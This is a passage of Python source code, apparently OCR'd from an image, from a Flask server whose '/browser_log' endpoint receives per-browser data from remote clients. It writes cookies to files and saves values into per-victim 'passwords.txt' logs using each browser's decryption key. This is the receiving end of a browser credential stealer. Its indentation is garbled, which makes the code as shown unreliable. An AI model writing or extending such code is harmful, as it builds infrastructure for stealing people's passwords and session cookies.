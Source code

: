             with open(cookies_file_path, 'w') as cookies_file:

                cookies_file.write(cookies_list)



    except Exception as e:

        print(f"Error cookies: {e}")





    @app.route('/browser_log/<unique_id>', methods=['POST'])

    def receive_browser_log(unique_id):

    try:

        data = request.json

        if data is None or not isinstance(data, dict):

            return json.dumps({'error': 'Incorrect data format.'}, ensure_ascii=False), 400



        client_data_str = data.get("Client")

        if client_data_str is None:

            return json.dumps({'error': 'Data for browsers is missing from the request.'}, ensure_ascii=False), 400



        client_data = json.loads(client_data_str)



        unique_id_logs_dir = os.path.join(app.root_path, 'logs', unique_id)

        os.makedirs(unique_id_logs_dir, exist_ok=True)



        passwords_file_path = os.path.join(unique_id_logs_dir, 'passwords.txt')

        with open(passwords_file_path, 'w') as passwords_file:

            for browser_name, browser_data in client_data.items():

                key_base64 = browser_data.get("key")

                if key_base64 is None:

                    print(f'The browser {browser_name} is missing a key.')

                    continue



                key = base64.b64decode(key_base64)



                for param_name, param_value in browser_data.items():

                    if param_name == "key":

